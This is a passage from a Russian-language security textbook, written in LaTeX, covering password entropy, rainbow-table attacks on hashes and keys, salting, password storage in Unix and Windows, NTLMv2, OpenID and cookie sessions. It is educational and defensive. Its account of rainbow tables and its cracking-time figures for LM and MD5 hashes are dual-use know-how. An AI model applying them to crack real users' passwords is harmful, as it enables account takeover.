        \rule{0pt}{2.5ex} 39 & $2^{169}$ & $2^{183}$ & $2^{256}$ \\
        \hline
    \end{tabular} }
\end{table}

Из таблицы~\ref{tab:password-number} видно, что при доступном объёме вычислений в $2^{60}$\,--\,$2^{70}$ операций, пароли вплоть до 15-ти символов, построенные на словах, слогах, изменениях слов, вставках цифр, небольшом изменении регистров и других простейших модификациях, в настоящее время могут быть найдены полным перебором как на вычислительном кластере, так и на персональном компьютере.

Для достижения криптостойкости паролей, сравнимой со 128- или 256-битовым секретным ключом, требуется выбирать пароль из 20 и 40 символов соответственно, что, как правило, не реализуется из-за сложности запоминания и возможных ошибок при вводе.


%Подсчитаем число паролей $N_1$, которые могут могут построены из $r$ ~ 2-3 буквенных слогов: $cv, vc, ccv, cvc, vcc$, где $c$ -- согласная, $v$ -- гласная. В английском алфавите $n_v = 10, n_c = 16, n = n_v + n_c = 26$. Число паролей
%    \[ N_1 = \left( n_v n_c (1 + 1 + n_c + n_c + n_c) \right)^r \approx 3^r n_v^r n_c^{2r}. \]
%Средняя длина паролей
%    \[ L = r \left( \frac{2 + 2 + 3 n_c + 3 n_c + 3 n_c}{1 + 1 + n_c + n_c + n_c} \right) \approx 3r. \]
%
%%Учтем, что $b \leq r$ символов могут быть заглавными: $N_1 \rightarrow N_2 < N_1 \binom{L}{b} \left( \frac{n}{n_v} \right)^b$. Вставим $d$ цифр в случайные места: $N_2 \rightarrow N_3 = N_2 (10 (1 + L))^d \approx N_2 (10 L)^d$.
%%
%%Общее число паролей
%%    \[ N = N_3 = 3^r 10^r 16^{2r} \binom{3r}{b} 2.6^b \left(10 \cdot 3 r \right)^d. \]
%%
%%\begin{table}[!ht]
%%    \centering
%%    \small
%%    \begin{tabular}{|c|c|c|c|c||cr|}
%%        \hline
%%        \parbox{1.3cm}{Слогов, $r$} & \parbox{1.8cm}{Заглавных букв, $b$} & \parbox{1.5cm}{Вставок цифр, $d$} & \parbox{2.8cm}{Средняя длина пароля, $L+d$} & \parbox{3cm}{Верхняя оценка числа паролей $N$} & \multicolumn{2}{|c|}{\parbox{3.2cm}{Число всех паролей}} \\
%%        \hline
%%        $2$ & $0$ & $0$ & $6$ & $2^{26}$ & $2^{36}$ & a-z \\
%%        $2$ & $2$ & $0$ & $6$ & $2^{32}$ & $2^{48}$ & A-Z, a-z \\
%%        $2$ & $2$ & $2$ & $8$ & $2^{45}$ & $2^{48}$ & A-Z, a-z, 0-9 \\
%%        \hline
%%        $3$ & $0$ & $0$ & $9$ & $2^{39}$ & $2^{54}$ & a-z \\
%%        $3$ & $3$ & $0$ & $9$ & $2^{49}$ & $2^{54}$ & A-Z, a-z \\
%%        $3$ & $3$ & $2$ & $11$ & $2^{63}$ & $2^{65}$ & A-Z, a-z, 0-9 \\
%%        \hline
%%        $4$ & $0$ & $0$ & $12$ & $2^{52}$ & $2^{93}$ & a-z \\
%%        $4$ & $3$ & $0$ & $12$ & $2^{64}$ & $2^{186}$ & A-Z, a-z \\
%%        $4$ & $3$ & $2$ & $14$ & $2^{78}$ & $2^{222}$ & A-Z, a-z, 0-9 \\
%%        \hline
%%    \end{tabular}
%%    \caption{Сравнение верхней оценки числа паролей, построенных на слогах, со всем доступным множеством паролей.}
%%    \label{tab:password-number}
%%\end{table}
%
%Учтем, что $b$ символов в пароле могут быть взяты не из 26-символьного алфавита строчных букв, а из всего алфавита в $D=94$ печатных символа клавиатуры (латиница и небуквенные символы):
%\[
%    \begin{array}{ll}
%    b=1 & N_1 \rightarrow N_2 = \frac{n_v}{n_v+n_c} 3^r n_v^{r-1} n_c^{2r} \cdot L. \]
%
%    \[ N_1 \rightarrow N_2 < N_1 \binom{L}{b} \left( \frac{D}{n_v} \right)^b. \]
%
%
%
%Общее число паролей
%    \[ N < 3^r n_v^r n_c^{2r} \binom{L}{b} \left( \frac{D}{n_v} \right)^b = 3^r 10^r 16^{2r} \binom{3r}{b} \left( \frac{94}{10} \right)^b. \]
%
%\begin{table}[!ht]
%    \centering
%    \small
%    \begin{tabular}{|c|c|c|c||cr|}
%        \hline
%        \parbox{1.5cm}{Слогов, $r$} & \parbox{3cm}{Средняя длина пароля, $L$} & \parbox{3cm}{Символов из всего алфавита, $b$} & \parbox{3cm}{Верхняя оценка числа паролей $N$} & \multicolumn{2}{|c|}{\parbox{3.2cm}{Число всех паролей, $D^L$}} \\
%        \hline
%        \multirow{3}{*}{2} & \multirow{3}{*}{6} & $0$ & $2^{26}$ & $2^{28}$ & a-z \\
%        & & $1$ & $2^{32}$ & $2^{34}$ & A-Z, a-z \\
%        & & $3$ & $2^{40}$ & $2^{39}$ & Весь алфавит \\
%        \hline
%        \multirow{3}{*}{3} & \multirow{3}{*}{9} & $0$ & $2^{39}$ & $2^{42}$ & a-z \\
%        & & $2$ & $2^{50}$ & $2^{51}$ & A-Z, a-z \\
%        & & $4$ & $2^{59}$ & $2^{59}$ & Весь алфавит \\
%        \hline
%        \multirow{3}{*}{4} & \multirow{3}{*}{12} & $0$ & $2^{52}$ & $2^{56}$ & a-z \\
%        & & $3$ & $2^{69}$ & $2^{68}$ & A-Z, a-z \\
%        & & $6$ & $2^{81}$ & $2^{77}$ & Весь алфавит \\
%        \hline
%    \end{tabular}
%    \caption{Сравнение верхней оценки числа паролей, построенных на слогах, со всем доступным множеством паролей в алфавите из $D$ символов.}
%    \label{tab:password-number}
%\end{table}
%
%Из таблицы~\ref{tab:password-number} видно, что при доступном объёме вычислений в $2^{60 \ldots 70}$ операций, пароли вплоть до 12 символов, построенные на словах, слогах, изменениях слов, вставках цифр, небольшого изменения регистров и другой простейшей обфускации, могут быть найдены перебором на кластере (или ПК) в настоящее время.


\subsubsection{Атака для подбора паролей и ключей шифрования}

В схемах аутентификации по паролю иногда используется хэширование и хранение хэша пароля на сервере. В таких случаях применима словарная атака или атака с применением заранее вычисленных таблиц для ускорения поиска.

Для нахождения пароля, прообраза хэш-функции, или для нахождения ключа блочного шифрования по атаке с выбранным шифртекстом (для одного и того же известного открытого текста и соответствующего шифртекста) может быть применён метод перебора с балансом между памятью и временем вычислений. Самый быстрый метод радужных таблиц\index{радужные таблицы} (\langen{rainbow tables}, 2003~г., \cite{Oechslin:2003}) заранее вычисляет следующие цепочки и хранит результат в памяти.

Для нахождения пароля, прообраза хэш-функции $H$, цепочка строится как
    \[ M_0 \xrightarrow{H(M_0)} h_0 \xrightarrow{R_0(h_0)} M_1 \ldots M_t \xrightarrow{H(M_t)} h_t \xrightarrow{R_t(h_t)} M_{t+1}, \]
где $R_i(h)$ -- функция редуцирования, преобразования хэша в пароль для следующего хэширования.

Для нахождения ключа блочного шифрования для одного и того же известного открытого текста $M$ таблица строится как
    \[ K_0 \xrightarrow{E_{K_0}(M)} c_0 \xrightarrow{R_0(c_0)} K_1 \ldots K_t \xrightarrow{E_{K_t}(M)} c_t \xrightarrow{R_t(c_t)} K_{t+1}, \]
где $R_i(c)$ -- функция редуцирования, преобразования шифртекста в новый ключ.

Функция редуцирования $R_i$ зависит от номера итерации, чтобы избежать дублирующихся подцепочек, которые возникают в случае коллизий между значениями в разных цепочках в разных итерациях, если $R$ постоянна. Радужная таблица размера $(m \times 2)$ состоит из строк $(M_{0,j}, M_{t+1,j})$ или $(K_{0,j}, K_{t+1,j})$, вычисленных для разных значений стартовых паролей $M_{0,j}$ или $K_{0,j}$ соответственно.

Опишем атаку на примере нахождения прообраза $\overline{M}$ хэша $\overline{h} = H(\overline{M})$. На первой итерации исходный хэш $\overline{h}$ редуцируется в сообщение $\overline{h} \xrightarrow{R_t(\overline{h})} \overline{M}_{t+1} $ и сравнивается со всеми значениями последнего столбца $M_{t+1,j}$ таблицы. Если нет совпадения, переходим ко второй итерации. Хэш $\overline{h}$ дважды редуцируется в сообщение $\overline{h} \xrightarrow{R_{t-1}(\overline{h})} \overline{M}_t \xrightarrow{H(\overline{M}_t)} \overline{h}_t \xrightarrow{R_t(\overline{h}_t)} \overline{M}_{t+1}$ и сравнивается со всеми значениями последнего столбца $M_{t+1,j}$ таблицы. Если не совпало, то переходим к третьей итерации и~т.\,д. Если для $r$-кратного редуцирования сообщение $\overline{M}_{t+1}$ содержится в таблице во втором столбце, то из совпавшей строки берётся $M_{0,j}$, и вся цепочка пробегается заново для поиска искомого сообщения $\overline{M}: ~ \overline{h} = H(\overline{M})$.

Найдём вероятность нахождения пароля в таблице. Пусть мощность множества всех паролей равна $N$. Изначально в столбце $M_{0,j}$ содержится $m_0 = m$ различных паролей. Предполагая наличие случайного отображения с пересечениями паролей $M_{0,j} \rightarrow M_{1,j}$, в $M_{1,j}$ будет $m_1$ различных паролей. Согласно задаче о размещении,
\[
    m_{i+1} = N \left( 1 - \left( 1 - \frac{1}{N} \right)^{m_i} \right) \approx N \left( 1 - e^{-\frac{m_i}{N}} \right).
\]
Вероятность нахождения пароля:
\[
    P = 1 - \prod \limits_{i=1}^t \left( 1 - \frac{m_i}{N} \right).
\]

Чем больше таблица из $m$ строк, тем больше шансов найти пароль или ключ, выполнив в наихудшем случае   $O \left( m \frac{t(t+1)}{2} \right)$ операций.

Примеры применения атаки на хэш-функциях $\textrm{MD5}$\index{хэш-функция!MD5}, $\textrm{LM} \sim \textrm{DES}_{\textrm{Password}} (\textrm{const})$ приведены в таблице~\ref{tab:rainbow-tables}.

\begin{table}[!ht]
    \centering
    \caption{Атаки на радужных таблицах на \emph{одном} ПК\label{tab:rainbow-tables}}
    \resizebox{\textwidth}{!}{ \begin{tabular}{|c|c|c|c|c|c|c|}
        \hline
        \multirow{2}{*}{\parbox{1.0cm}{\medskip\medskip \centering Длина, биты}} & \multicolumn{3}{|c|}{\parbox{4.3cm}{\medspace\centering Пароль или ключ}} &
            \multicolumn{3}{|c|}{\parbox{4.33cm}{\medspace\centering Радужная таблица}} \\
        \cline{2-7}
        & \parbox{1.0cm}{\centering Длина,\\ симв.} & \parbox{1.7cm}{\centering Множество} & \parbox{1.7cm}{\centering Мощность} &
            \parbox{1cm}{\centering Объём} & \parbox{2.23cm}{\medspace \centering Время вычисления таблиц} & \parbox{1.1cm}{\centering Время поиска} \\
        \hline \hline
        \multicolumn{7}{|c|}{Хэш LM} \\
        \hline
        \rule{0pt}{2.5ex}\multirow{3}{*}{$2 \times 56$} & \multirow{3}{*}{14} &
            A--Z & $2^{33}$ & 610 MB &  & 6 с \\
        & & A--Z, 0-9 & $2^{36}$ & 3 GB &  & 15 с \\
        & & все & $2^{43}$ & 64 GB & \parbox{2.23cm}{несколько лет} & 7 мин \\
        \hline \hline
        \multicolumn{7}{|c|}{Хэш MD5} \\
        \hline
        \rule{0pt}{2.5ex} 128 & 8 & A-Z, 0-9 & $2^{41}$ & 36 GiB & - & 4 мин \\
        \hline
    \end{tabular} }
\end{table}

\section{Аутентификация по паролю}

Из-за малой энтропии пользовательских паролей во всех системах регистрации и аутентификации пользователей применяется специальная политика безопасности. Типичные минимальные требования:
\begin{enumerate}
    \item Длина пароля от 8 символов. Использование разных регистров и небуквенных символов в паролях. Запрет паролей из словаря или часто используемых паролей. Запрет паролей в виде дат, номеров машин и других номеров.
    \item Ограниченное время действия пароля. Обязательная смена пароля по истечении срока действия.
    \item Блокирование возможности аутентификации после нескольких неудачных попыток. Ограниченное число актов аутентификации в единицу времени. Временная задержка перед выдачей результата аутентификации.
\end{enumerate}

Дополнительные меры предосторожности для пользователей:
\begin{enumerate}
    \item Не использовать одинаковые или похожие пароли для разных систем, таких как электронная почта, вход в ОС, электронная платёжная система, форумы, социальные сети. Пароль часто передаётся в открытом виде по сети. Пароль доступен администратору системы, возможны утечки конфиденциальной информации с серверов. Поэтому следует стараться выбирать случайные стойкие пароли.
    \item Не записывать пароли. Никому не сообщать пароль, даже администратору. Не передавать пароли по почте, телефону, Интернету и~т.\,д.
    \item Не использовать одну и ту же учётную запись для разных пользователей, даже в виде исключения.
    \item Всегда блокировать компьютер, когда пользователь отлучается от него, даже на короткое время.
\end{enumerate}

\section[Пароли и аутентификация в ОС]{Хранение паролей и \protect\\ аутентификация в ОС}
\selectlanguage{russian}

Для усложнения подбора пароля и защиты от словарной атаки перед процедурой хэширования к паролю добавляется <<соль>> -- случайная битовая строка. \emph{<<Солью>>} (salt)\index{соль} называется (псевдо)случайная битовая строка $s$, добавляемая к аргументу $m$ (паролю) функции хэширования $h(m)$ для рандомизации хэширования одинаковых сообщений.

\emph{Словарная} атака заключается в том, что злоумышленник один раз заранее вычисляет таблицы хэшей от наиболее \emph{вероятных} сообщений, то есть составляет словарь пароль-хэш, и далее производит поиск по вычисленной таблице для взламывания исходного сообщения. Ранее словарные атаки использовались для взлома паролей $m$, которые хранились в виде обычных хэшей $h(m)$. Усовершенствованной словарной атакой является метод радужных таблиц, позволяющий практически взламывать хэши длиной до 64--128 бит. Использование <<соли>> делает невозможной словарную атаку, так как значение функции вычисляется уже не от оригинального пароля, а от конкатенации <<соли>> и пароля.

<<Соль>> может храниться как отдельное значение, единственное и уникальное для системы целиком, так и быть уникальной для каждого сохранённого пароля и храниться со значением функции хэширования:
\begin{itemize}
	\item $s ~\|~ h(s ~\|~ m)$;
	\item $s ~\|~ h(m ~\|~ s)$;
	\item $s_1 ~\|~ h(m ~\|~ s_1 ~\|~ s_2)$.
\end{itemize}

В первом случае функция хэширования вычисляется от конкатенации (склеивания) <<соли>> и пароля пользователя. Во втором случае в строке сначала идёт пароль, а потом -- <<соль>>. Это позволяет немного усложнить задачу злоумышленнику при переборе паролей (он не сможет сократить время вычисления значения функции хэширования за счёт одинакового префикса у всех аргументов функции хэширования). В третьем случае используется сразу две <<соли>>: одна хранится вместе с паролем, а вторая выступает внешним параметром, хранящимся отдельно от базы данных паролей.

В рассмотренной ранее модели построения паролей в виде слогов с элементами небольшой модификации мы получили количество паролей около $2^{70}$ для 12-символьных паролей. Данный объём вычислений уже почти достижим. Следовательно, даже <<соль>> не защищает пароли от взлома, если у злоумышленника есть доступ к файлу с паролями или возможность неограниченных попыток аутентификации. Поэтому файлы с паролями дополнительно защищаются, а в системы аутентификации по паролю вводят ограничения на неуспешные попытки аутентификации.

\subsection[Unix]{Хранение паролей в Unix}

В ОС Unix пароль $m$ пользователя хранится в файле \texttt{/etc/shadow} в виде хэша (SHA, MD5 и~т.~д.) или результата шифрования (DES, Blowfish и~т.~д.), вычисленного с <<солью>> $s$ длиной от 2 (для функции crypt в оригинальной ОС UNIX) до 16 (для Blowfish в OpenBSD) ASCII-символов. То, как используется <<соль>>, зависит от используемого алгоритма. Например, в традиционном алгоритме, используемом в оригинальном UNIX, <<соль>> модифицирует s-блоки и p-блоки в протоколе DES.

Файл \texttt{/etc/shadow} доступен только привилегированным процессам, что вносит дополнительную защиту.


\subsection[Windows]{Хранение паролей и аутентификация в \protect\\ Windows}

%[MS-NLMP]: NT LAN Manager (NTLM) Authentication Protocol Specification -- 09/25/2009, Rev. 11.0
%http://blogs.technet.com/authentication/archive/2006/04/07/ntlm-s-time-has-passed.aspx
%http://technet.microsoft.com/en-us/library/cc755284(WS.10).aspx -- Windows Authentication, Updated: February 7, 2008
%http://207.46.16.252/en-us/magazine/2006.08.securitywatch.aspx - The Most Misunderstood Windows Security Setting of All Time, Jesper Johansson
%http://en.wikipedia.org/wiki/NTLM
%http://www.windowsnetworking.com/nt/atips/atips92.shtml

ОС Windows, начиная с Vista, Server 2008, Windows 7, сохраняет пароли в виде NT-хэша, который вычисляется как 128-битовый хэш MD4 от пароля в Unicode кодировке. NT-хэш не использует <<соль>>, поэтому применима словарная атака. На словарной атаке основаны программы поиска (взлома) паролей для Windows. Файл паролей называется SAM (\langen{Security Account Manager}) в случае локальной аутентификации. Если пароли хранятся на сетевом сервере, то они хранятся в специальном файле, доступ к которому ограничен.

В последнем протоколе аутентификации NTLMv2\index{протокол!NTLM}\index{протокол!NTLMv2}~\cite{MS-NLMP} пользователь для входа в свой компьютер аутентифицируется либо локально на компьютере, либо удалённым сервером, если учётная запись пользователя хранится на сервере. Пользователь с именем $user$ вводит пароль в программу-\emph{клиент}, которая, взаимодействуя с программой-\emph{сервером} (локальной или удалённой на сервере домена $domain$), аутентифицирует пользователя для входа в систему.
\begin{enumerate}
    \item Клиент $\rightarrow$ Сервер: запрос аутентификации.
    \item Клиент $\leftarrow$ Сервер: 64-битовая псевдослучайная одноразовая метка $n_s$.
    \item Вводимый пользователем пароль хэшируется в $\textrm{NThash}$ без <<соли>>. Клиент генерирует 64-битовую псевдослучайную одноразовую метку $n_c$, создаёт метку времени $ts$. Далее вычисляются 128-битовые имитовставки\index{имитовставка} $\HMAC$ на хэш-функции MD5 с ключами $\textrm{NT-hash}$ и $\textrm{NTOWF}$:
        \[ \textrm{NThash} = \text{MD4}(\text{Unicode}(\text{пароль})), \]
        \[ \textrm{NTOWF} = \textrm{HMAC-MD5}_{\textrm{NThash}}(user, domain), \]
        %\[ \text{LMv2-response} = \text{HMAC-MD5}_{\text{NTLMv2-hash}}(n_c, n_s), \]
        \[ \textrm{NTLMv2-response} = \textrm{HMAC-MD5}_{\textrm{NTOWF}}(n_c, n_s, ts, domain). \]
    \item Клиент $\rightarrow$ Сервер: $(n_c, \textrm{NTLMv2-response})$. %LMv2-response,
    \item Сервер для указанных имён пользователя и домена извлекает из базы паролей требуемый NT-hash, производит аналогичные вычисления и сравнивает значения имитовставок. Если они совпадают, аутентификация успешна.
\end{enumerate}

В случае аутентификации на локальном компьютере сравниваются значения $\textrm{NTOWF}$: вычисленные от пароля пользователя и извлечённые из файла паролей SAM.

Как видно, протокол аутентификации NTLMv2 обеспечивает одностороннюю аутентификацию пользователя серверу (или своему ПК).

При удалённой аутентификации по сети последние версии Windows используют протокол Kerberos, который обеспечивает взаимную аутентификацию, и, только если аутентификация по Kerberos не поддерживается клиентом или сервером, она происходит по NTLMv2.


\section{Аутентификация в веб-сервисах}
\selectlanguage{russian}

В настоящий момент HTTP\index{протокол!HTTP} (вместе с HTTPS\index{протокол!HTTPS}) является основным протоколом, используемым в сети Интернет для доступа к веб-сервисам (например к социальным сетям или веб-клиентам электронной почты). Данный протокол является протоколом типа <<запрос-ответ>>\index{протокол!запрос-ответ}, причём для каждого запроса открывается новое соединение с сервером\footnote{Для версии протокола HTTP/1.0 существует неофициальное~\cite[p.~17]{Totty:2002} расширение в виде заголовка \texttt{Connection: Keep-Alive}, который позволяет использовать одно соединение для нескольких запросов. Версия протокола HTTP/1.1 по умолчанию~\cite[6.3.~Persistence]{rfc7230} устанавливает поддержку выполнения нескольких запросов в рамках одного соединения. Однако все запросы всё равно выполняются независимо друг от друга.}. То есть протокол HTTP не является сессионным протоколом\index{протокол!сессионный}. В связи с этим задачу аутентификации на веб-сервисах можно разделить на задачи первичной и вторичной аутентификаций. \emph{Первичной аутентификацией}\index{аутентификация!первичная} будем называть механизм обычной аутентификации пользователя в рамках некоторого HTTP-запроса, а \emph{вторичной}\index{аутентификация!вторичная} (или \emph{повторной}\index{аутентификация!повторная}) -- некоторый механизм подтверждения в рамках последующих HTTP-запросов, что пользователь уже был \emph{ранее} аутентифицирован веб-сервисом в рамках первичной аутентификации.

Аутентификация в веб-сервисах также бывает \emph{односторонней}\index{аутентификация!односторонняя} (как со стороны клиента, так и со стороны сервиса) и \emph{взаимной}\index{аутентификация!взаимная}. Под аутентификацией веб-сервиса обычно понимается возможность сервиса доказать клиенту, что он является именно тем веб-сервисом, к которому хочет получить доступ пользователь, а не его мошеннической подменой, созданной злоумышленниками. Для аутентификации веб-сервисов используется механизм сертификатов открытых ключей\index{сертификат открытого ключа} протокола HTTPS\index{протокол!HTTPS} с использованием инфраструктуры открытых ключей\index{инфраструктура открытых ключей} (см. раздел~\ref{chapter-public-key-infrastructure}).

При использовании протокола HTTPS\index{протокол!HTTPS} и наличии соответствующей поддержки со стороны веб-сервиса клиент также имеет возможность аутентифицировать себя с помощью своего сертификата открытого ключа\index{сертификат открытого ключа}. Данный механизм редко используется в публичных веб-сервисах, так как требует от клиента иметь на устройстве, с которого осуществляется доступ, файл сертификата открытого ключа.

\subsection{Первичная аутентификация по паролю}

Стандартная первичная аутентификация в современных веб-сервисах происходит посредством обычной передачи логина и пароля в открытом виде по сети. Если SSL-соединение не используется, логин и пароль могут быть перехвачены. Даже при использовании SSL-соединения веб-приложение имеет доступ к паролю в открытом виде.

Более защищённым, но малоиспользуемым способом аутентификации является вычисление хэша от пароля $m$, <<соли>> $s$ и псевдослучайных одноразовых меток $n_1, n_2$ с помощью JavaScript в браузере и отсылка по сети только результата вычисления хэша.
\[ \begin{array}{ll}
    \text{Браузер} ~\rightarrow~ \text{Сервис:} & \text{HTTP GET-запрос,} \\
    \text{Браузер} ~\leftarrow~ \text{Сервис:}  & s ~\|~ n_1, \\
    \text{Браузер} ~\rightarrow~ \text{Сервис:} & n_2 ~\|~ h( h(s ~\|~ m) ~\|~ n_1 ~\|~ n_2). \\
\end{array} \]

Если веб-сервис хранит хэш от пароля и <<соли>> $h(s ~\|~ m)$, то пароль не может быть перехвачен ни по сети, ни веб-сервисом, ни какими-либо прокси-серверами, находящимися между браузером и веб-сервисом.

В массовых интернет-сервисах пароли часто хранятся в открытом виде на сервере, что не является хорошей практикой для обеспечения защиты персональных данных пользователей.

\subsection{Первичная аутентификация в OpenID}
\selectlanguage{russian}

Из-за большого числа различных логинов, которые приходится использовать для доступа к различным сервисам, постепенно происходит внедрение единых систем аутентификации для различных сервисов (single sign-on), например OpenID. Одновременно происходит концентрация пользователей вокруг больших порталов с единой аутентификацией, например Google Account. Яндекс.Паспорт также уменьшает число используемых паролей для различных служб.

Принцип аутентификации состоит в следующем.
\begin{enumerate}
    \item Пользователи и интернет-сервисы доверяют аутентификацию третьей стороне -- центру единой аутентификации.
    \item Когда пользователь заходит на интернет-ресурс, веб-при\-ло\-же\-ние перенаправляет его на центр аутентификации с защитой TLS-соединением.
    \item Центр аутентифицирует пользователя и выдаёт ему токен аутентификации, который пользователь предъявляет ин\-тер\-нет-сер\-ви\-су.
    \item Сервис по токену аутентификации определяет имя пользователя.
\end{enumerate}

\begin{figure}[!ht]
	\centering
	
\includegraphics[width=0.9\textwidth]{pic/openid}
	\caption{Схема аутентификации в OpenID\label{fig:openid}}
\end{figure}

На рис.~\ref{fig:openid} показана схема аутентификации в OpenID версии 2 для доступа к стороннему интернет-сервису.

Если сервис и центр вместе создают общий секретный ключ $K$ для имитовставки\index{имитовставка} $\MAC_K$, выполняются шаги 4, 5 по протоколу Диффи~---~Хеллмана\index{протокол!Диффи~---~Хеллмана}:
\[ \begin{array}{l}
    \text{4. Сервис} ~\rightarrow~ \text{центр: модуль}~ p ~\text{группы}~ \Z_p^*, ~\text{генератор}~ g, \\
        ~~~~~~~~~~~~~~~\text{число}~ g^a \mod p, \\
    \text{5. Сервис} ~\leftarrow~ \text{центр: число}~ g^b \mod p, ~\text{гаммированный} \\
        ~~~~~~~~~~~~~~~\text{ключ}~ K \oplus (g^{ab} \mod p),
\end{array} \]
то аутентификатор содержит $\MAC_K$, проверяемый шагом 10 на выданном ключе $K$\footnote{Более правильным подходом является использование в качестве ключа $K = g^{ab} \mod p$, так как в этом случае ключ создаётся совместно, а не выдаётся центром.}. Имитовставка\index{имитовставка} определяется как описанный ранее $\HMAC$ с хэш-функцией SHA-256.

Если сервис и центр не создают общий ключ (этапы 4, 5 не выполняются), то сервис делает запрос на проверку аутентификатора в шагах 10, 11.

В OpenID аутентификатор состоит из следующих основных полей: имени пользователя, URL сервиса, результата аутентификации в OpenID, одноразовой метки и, возможно, кода аутентификации от полей аутентификатора на секретном ключе $K$, если он был создан на этапах 4, 5. Одноразовая метка является \emph{одноразовым} псевдослучайным идентификатором результата аутентификации, который центр сохраняет в своей БД. По одноразовой метке сервис запрашивает центр о верности результата аутентификации на этапах 10, 11. Одноразовая метка дополнительно защищает от атак воспроизведения.

Можно было бы исключить шаги 4, 5, 10, 11, но тогда сервису пришлось бы реализовывать и хранить в БД использованные одноразовые метки для защиты от атак воспроизведения. Цель OpenID -- предоставить аутентификацию с минимальными издержками на интеграцию. Поэтому в OpenID реализуется модель, в которой сервис делегирует все проверки центру с помощью соответствующих запросов.

Важно отметить, что в аутентификации через OpenID необходимо использовать TLS-соединения\index{протокол!SSL/TLS} (то есть протокол HTTPS\index{протокол!HTTPS}) при всех взаимодействиях с центром, так как в самом протоколе OpenID не производится аутентификация сервиса и центра, конфиденциальность\index{конфиденциальность} и целостность\index{целостность} не поддерживаются.


\subsection{Вторичная аутентификация по cookie}
\selectlanguage{russian}

Если сервер использует первичную аутентификацию по паролю, который передаётся в виде данных POST-запроса, то осуществлять подобную передачу данных при каждом обращении неудобно. Клиент должен иметь возможность доказать серверу, что он уже прошёл первичную аутентификацию. Должен быть предусмотрен механизм вторичной аутентификации. Для этого используется случайный токен, который уникален для каждого пользователя (обычно -- для каждого сеанса работы пользователя), который сервер передаёт пользователю после первичной аутентификации. Данный токен должен передаваться клиентом на сервис при каждом обращении к страницам, которые относятся к защищённой области сервиса. На практике применяются следующие механизмы для передачи данного токена при каждом запросе.

\begin{itemize}
	\item Первым способом является модификация вывода страницы клиенту, которая добавляет ко всем URL в HTML-коде страницы этот токен. В результате, переходя по ссылкам на HTML-странице (а также заполняя формы и отправляя их на сервер), клиент будет автоматически отправлять токен как часть запроса в URL-адресе страницы:

\texttt{http://tempuri.org/page.html?token=12345.}
	\item Вторым способом является использование механизма cookie (<<куки>>, <<кукиз>>, на русский обычно не переводится, подробнее см.~\cite[Client Identification and Cookies]{Totty:2002}). Данный механизм позволяет серверу передать пользователю некоторую строку, которая будет отправляться на сервер при каждом последующем запросе.
\end{itemize}

Основным механизмом для вторичной аутентификации пользователей в веб-сервисах является механизм cookie, а токены, как часть URL, используются в распределённых системах, наподобие уже рассмотренной OpenID, так как сервисы, находящиеся в разных доменах, не имеют доступа к общим cookie. Далее рассмотрим подробнее механизм использования cookie.

Когда браузер в первый раз делает HTTP-запрос:
\begin{center} \begin{verbatim}
GET /index.html HTTP/1.1
Host: www.wikipedia.org
Accept: */*
\end{verbatim} \end{center}

В заголовок ответа сервера веб-приложение может добавить заголовок \texttt{Set-Cookie}, который содержит новые значения cookie:
\begin{center} \begin{verbatim}
HTTP/1.1 200 OK
Content-type: text/html
Set-Cookie: name1=value1; name2=value2; ...

...далее HTML-страница...
\end{verbatim} \end{center}

Браузер, если это разрешено настройками, при последующих запросах к веб-серверу автоматически будет отсылать cookie назад веб-приложению:
\begin{center} \begin{verbatim}
GET /wiki/HTTP_cookie HTTP/1.1
Host: www.wikipedia.org
Cookie: name1=value1; name2=value2; ...
Accept: */*
\end{verbatim} \end{center}

Далее веб-приложение может создать новый cookie, изменить значение старого и~т.\,д. Браузер хранит cookie на устройстве клиента. То есть cookie позволяет хранить переменные на устройстве клиента, отсылать сохранённые значения, получать новые переменные. В результате создаётся передача состояний, что даёт возможность не вводить логин и пароль каждый раз при входе в интернет-сервис, использовать несколько окон для одного сеанса работы в интернет-магазине и~т.\,д. При создании cookie может указываться его конечное время действия, после которого браузер удалит устаревший cookie.

Для вторичной аутентификации в cookie веб-приложение записывает токен в виде текстовой строки. В качестве токена можно использовать \emph{псевдослучайную} текстовую строку достаточной длины, созданную веб-приложением. Например:
\begin{center} \begin{verbatim}
Cookie: auth=B35NMVNASUY26MMWNVZ87.
\end{verbatim} \end{center}

В этом случае веб-сервис должен вести журнал выданных токенов пользователям и их сроков действия. Если информационная система небольшого размера (один или десятки серверов), то вместо журнала может использоваться механизм session storage.
\begin{itemize}
	\item При первом заходе на сайт сервер приложений (платформа исполнения веб-приложения) <<назначает>> клиенту сессию, отправляя ему через механизм cookie новый (псевдо)случайный токен сессии, а в памяти сервера выделяя структуру, которая недоступна самому клиенту, но которая соответствует данной конкретной сессии.
	\item При каждом последующем обращении клиент передаёт токен (идентификатор) сессии с помощью механизма cookie. Сервер приложений берёт из памяти соответствующую структуру сессии и передаёт её приложению вместе с параметрами запроса.
	\item В момент прохождения первичной аутентификации приложение добавляет в указанную область памяти ссылку на информацию о пользователе.
	\item При последующих обращениях приложение использует информацию о пользователе, записанную в области памяти сессии клиента.
	\item Сессия автоматически стирается из памяти после прохождения некоторого времени неактивности клиента (что контролируется настройками сервера) либо если приложение явно вызвало функцию инвалидации сессии (\langen{invalidate}).
\end{itemize}

